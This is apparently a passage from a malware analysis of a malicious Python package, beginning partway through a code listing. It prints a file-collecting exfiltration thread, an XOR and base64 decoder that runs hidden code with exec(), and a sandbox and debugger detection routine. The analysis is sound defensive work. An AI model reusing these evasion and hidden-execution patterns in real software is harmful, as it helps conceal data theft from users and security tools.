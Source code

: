 ```python
        "files": file_data,
        # Additional environment variables and potential virtual environment info
    }
    
    exfiltrate_data(data)

# Start payload in separate thread to avoid blocking
threading.Thread(target=execute_payload, daemon=True).start()
```

### Obfuscation Techniques

The actual malicious package employed several obfuscation techniques:

1. **Code Encryption**: The payload was base64-encoded and encrypted with a simple XOR cipher:

python

```python
def decode_payload(encoded_payload, key):
    decoded = base64.b64decode(encoded_payload)
    result = bytearray()
    for i, byte in enumerate(decoded):
        result.append(byte ^ ord(key[i % len(key)]))
    return result

# Real malicious code used something like:
ENCODED_PAYLOAD = "SGVsbG8gZnJvbSB0aGUgaGFja2VycyE="  # Example only
KEY = "PYTHONDATEUTIL"
exec(decode_payload(ENCODED_PAYLOAD, KEY))
```

2. **Anti-Detection Measures**:
    - Only executed when certain conditions were met (not in sandbox environments)
    - Used time delays between actions to avoid detection
    - Checked for debugging tools and virtual machines

python

```python
def is_sandbox():
    # Check for common sandbox/VM indicators
    if os.path.exists("/proc/vz") or os.path.exists("/proc/xen"):
        return True
    
    # Check for debugging tools
    for proc in os.listdir('/proc'):
        if proc.isdigit():
            try:
                with open(f'/proc/{proc}/status', 'r') as f:
                    if 'gdb' in f.read() or 'strace' in f.read():
                        return True
            except:
                pass
    
    # Check system uptime (sandboxes often have short uptime)
    try:
        with open('/proc/uptime', 'r') as f:
            uptime = float(f.read().split()[0])
            if uptime < 600:  # Less than 10 minutes
                return True
    except:
        pass
    
    return False

```